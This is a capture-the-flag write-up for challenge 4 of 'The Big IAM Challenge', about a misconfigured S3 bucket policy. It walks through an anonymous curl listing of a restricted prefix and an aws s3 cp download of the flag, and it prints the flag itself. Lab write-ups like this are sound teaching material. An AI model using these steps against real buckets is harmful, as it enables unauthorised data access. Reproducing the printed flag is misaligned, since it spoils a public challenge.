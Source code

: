 ```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

The provided IAM policy clearly states that listing files in a bucket is only allowed for a user with the `admin` role. However, there's also a loophole: anyone can download files from the bucket. This is a very bad practice and a huge security risk. From these statements, we can conclude that the bucket has at least a `files/` directory, and we can view it by accessing the HTTP endpoint of the bucket.

```bash
> curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321?prefix=files/"
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>thebigiamchallenge-admin-storage-abf1321</Name><Prefix>files/</Prefix><Marker></Marker><MaxKeys>1000</MaxKeys><IsTruncated>false</IsTruncated><Contents><Key>files/flag-as-admin.txt</Key><LastModified>2023-06-07T19:15:43.000Z</LastModified><ETag>"e365cfa7365164c05d7a9c209c4d8514"</ETag><Size>42</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>files/logo-admin.png</Key><LastModified>2023-06-08T19:20:01.000Z</LastModified><ETag>"c57e95e6d6c138818bf38daac6216356"</ETag><Size>81889</Size><StorageClass>STANDARD</StorageClass></Contents></ListBucketResult>
```

He-he, there it is. Here are the droids I’m looking for!

```bash
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt - | cat
{wiz:principal-arn-is-not-what-you-think}
```

Challenge 4 is complete.

